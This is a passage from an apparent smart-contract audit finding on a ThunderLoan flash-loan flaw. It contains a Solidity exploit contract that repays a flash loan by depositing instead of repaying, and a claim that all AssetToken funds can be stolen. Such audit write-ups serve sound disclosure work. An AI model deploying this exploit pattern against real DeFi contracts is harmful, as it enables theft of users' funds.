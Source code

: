 ```Solidity
    using SafeERC20 for IERC20;

    address s_owner;
    address s_thunderLoan;

    uint256 s_balanceDuringFlashLoan;
    uint256 s_balanceAfterFlashLoan;

    constructor(address thunderLoan) {
        s_owner = msg.sender;
        s_thunderLoan = thunderLoan;
        s_balanceDuringFlashLoan = 0;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata /*  params */
    )
        external
        returns (bool)
    {
        s_balanceDuringFlashLoan = IERC20(token).balanceOf(address(this));
        
        if (initiator != s_owner) {
            revert MockFlashLoanReceiver__onlyOwner();
        }
        
        if (msg.sender != s_thunderLoan) {
            revert MockFlashLoanReceiver__onlyThunderLoan();
        }
        IERC20(token).approve(s_thunderLoan, amount + fee);
        IThunderLoan(s_thunderLoan).deposit(IERC20(token), amount + fee);
        s_balanceAfterFlashLoan = IERC20(token).balanceOf(address(this));
        return true;
    }

    function getbalanceDuring() external view returns (uint256) {
        return s_balanceDuringFlashLoan;
    }

    function getBalanceAfter() external view returns (uint256) {
        return s_balanceAfterFlashLoan;
    }

    function sendAssetToken(address assetToken) public {
        
        IERC20(assetToken).transfer(msg.sender, IERC20(assetToken).balanceOf(address(this)));
    }
}
```
Notice that the **`assetLt()`** checks whether the balance of the AssetToken contract is less than the **`DEPOSIT_AMOUNT`**, which represents the initial balance. The contract balance should never decrease after a flash loan, it should always be higher.
## Impact
All the funds of the AssetContract can be stolen.
## Tools Used
Manual review.